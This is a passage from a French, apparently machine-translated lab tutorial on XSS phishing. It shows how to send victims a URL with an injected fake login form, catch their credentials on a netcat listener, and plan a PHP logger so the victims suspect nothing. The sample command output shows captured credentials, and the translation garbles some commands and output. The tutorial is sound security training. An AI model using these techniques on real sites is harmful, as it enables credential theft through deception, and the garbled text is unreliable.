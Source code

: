 Comme nous pouvons le voir, cela supprime le morceau restant du code HTML d'origine, et notre charge utile doit être prête. La page semble maintenant légitimement nécessite une connexion:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_3.jpg)

Nous pouvons désormais copier l'URL finale qui devrait inclure la charge utile entière, et nous pouvons l'envoyer à nos victimes et tenter de les inciter à utiliser le faux formulaire de connexion. Vous pouvez essayer de visiter l'URL pour vous assurer qu'il affichera le formulaire de connexion comme prévu. Essayez également de vous connecter au formulaire de connexion ci-dessus et voyez ce qui se passe.

* * * * *

Vol d'identification
-------------------

Enfin, nous arrivons à la partie où nous volons les informations d'identification de connexion lorsque la victime tente de se connecter à notre formulaire de connexion injecté. Si vous essayez de vous connecter au formulaire de connexion injecté, vous obtiendrez probablement l'erreur «Ce site ne peut pas être atteint». En effet, comme mentionné précédemment, notre formulaire HTML est conçu pour envoyer la demande de connexion à notre IP, qui devrait écouter une connexion. Si nous n'écoutons pas une connexion, nous obtiendrons une erreur de «site ne peut pas être atteinte».

Alors, commençons un simple serveur `NetCAT» et voyons quel type de demande nous recevons lorsque quelqu'un tente de se connecter via le formulaire. Pour ce faire, nous pouvons commencer à écouter sur le port 80 dans notre PWNBOX, comme suit:

```
dsgsec @ htb [/ htb] $ sudo nc -lvnp 80
écouter sur [n'importe quel] 80 ...
```

Maintenant, essayons de vous connecter avec les informations d'identification «Test: Test» et vérifiez la sortie «NetCat» que nous obtenons («N'oubliez pas de remplacer notre_IP dans la charge utile XSS par votre ip» réel »):

```
Connectez-vous à [10.10.xx.xx] depuis (inconnu) [10.10.xx.xx] xxxxx
Get /? Username = test & mot de passe = test et soumission = connecter http / 1.1
Hôte: 10.10.xx.xx
...COUPER...

```

Comme nous pouvons le voir, nous pouvons capturer les informations d'identification dans l'URL de la demande HTTP (`/? Username = test & mot de passe = test`). Si une victime tente de se connecter avec le formulaire, nous obtiendrons ses informations d'identification.

Cependant, comme nous n'écoutons qu'avec un auditeur «Netcat», il ne gèrera pas correctement la demande HTTP et la victime obtiendrait une erreur «incapable de connecter», ce qui pourrait soulever des soupçons. Ainsi, nous pouvons utiliser un script PHP de base qui enregistre les informations d'identification de la demande HTTP, puis renvoie la victime à la page d'origine sans aucune injection. Dans ce cas, la victime peut penser qu'elle s'est connectée avec succès et utilisera la visionneuse d'images comme prévu.

Le script PHP suivant doit faire ce dont nous avons besoin, et nous l'écrire dans un fichier sur notre machine virtuelle que nous appellerons `index.php` et le placerons dans` / tmp / tmpServer / `(` n'oubliez pas de remplacer Server_ip avec l'IP à partir de notre exercice`):
